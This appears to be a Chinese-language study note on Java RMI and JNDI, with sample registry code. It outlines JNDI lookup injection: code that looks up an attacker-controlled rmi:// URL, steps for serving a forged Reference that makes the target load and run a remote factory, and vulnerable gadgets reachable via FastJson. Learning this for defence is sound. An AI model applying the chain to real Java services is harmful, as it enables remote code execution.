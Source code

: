 # RMI

基于序列化的java远程调用，反序列化入口。  
依赖JRMP协议，参数对象通过序列化后传输。  
客户端的类serialVersionUID必须与服务器一致。

远程服务器实现方法并提供接口，客户端根据接口类定义，传参调用。  
远程调用方法类实现java.rmi.Remote接口。继承UnicastRemoteObject类或在构造方法中调用UnicastRemoteObject.exportObject方法。  
客户端必须有远程调用类的接口。

JVM之间通信时，服务端把远程对象的代理stub（包含地址端口等信息）传递给客户端。  
server监听端口，client调用stub提供的方法，server执行方法，stub返回结果给client。

RMI注册表是远程对象，监听在1099端口  
```java
IHello rhello = new HelloImpl();
LocateRegistry.createRegistry(1099);  //服务器创建注册表
Naming.bind("rmi://0.0.0.0:1099/hello", rhello);  //将对象引用和URL绑定
```

client通过注册表查询调用
```java
Registry registry = LocateRegistry.getRegistry("192.168.1.110",1099);
IHello rhello = (IHello) registry.lookup("hello");  //在注册表中查找
rhello.sayHello("test");  //远程调用
```

client JVM中如果不存在class，则通过http请求下载类class，动态加载。

# JNDI

查找和访问资源通用接口，可用来调用远程对象。  
支持多种naming and directory providers，如rmi registry service provider

控制lookup参数注入攻击
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
//com.sun.jndi.rmi.registry.RegistryContextFactory 是RMI Registry Service Provider对应的Factory
env.put(Context.PROVIDER_URL, "rmi://172.16.240.135:8080");
Context ctx = new InitialContext(env);
Object local_obj = ctx.lookup("rmi://172.16.240.135:8080/test");  //该URL为攻击者可控
```

1. 目标代码调用InitialContext.lookup(URL)，URL可控
2. 伪造RMI服务地址：rmi://server/name
3. 服务器返回Reference对象指定factory
4. 目标动态加载并实例化factory，factory.getObjectInstance
5. 在Factory的构造方法，静态代码，getObjectInstance中写POC

## 存在问题的地方：

- spring-tx.jar JtaTransactionManager.readObject
- com.sun.rowset.JdbcRowSetImpl.execute

当使用json格式传输参数时，利用FastJon控制set方法，将伪造的RMI服务地址传入lookup方法。

参考：https://mp.weixin.qq.com/s/cyeEAv31GO_hZCTXVRBkxw
